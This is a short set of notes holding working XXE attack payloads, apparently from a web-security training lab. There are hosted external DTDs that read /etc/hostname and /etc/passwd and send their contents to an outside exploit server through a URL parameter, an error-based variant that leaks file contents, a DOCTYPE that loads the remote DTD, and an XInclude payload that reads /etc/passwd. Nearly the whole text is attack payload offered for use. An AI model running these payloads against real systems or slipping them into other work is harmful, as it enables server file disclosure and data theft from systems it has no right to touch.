 //hosted payload for single line file

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfile SYSTEM 'https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/?hostname=%file;'>">



//hosted payload for multi line file 

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfile SYSTEM 'file:///error/%file;'>">



//xxe payload

<!DOCTYPE test [<!ENTITY % xxe SYSTEM "https://exploit-0ae1006404b4b263c00cb47f01ae0023.exploit-server.net/exploit">
%xxe; 
%stack; 
%exfile;]>



// simple xxe injection payload for url query /?=
first check the parameter with this !ENTITY %26hack;
<hack xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></hack>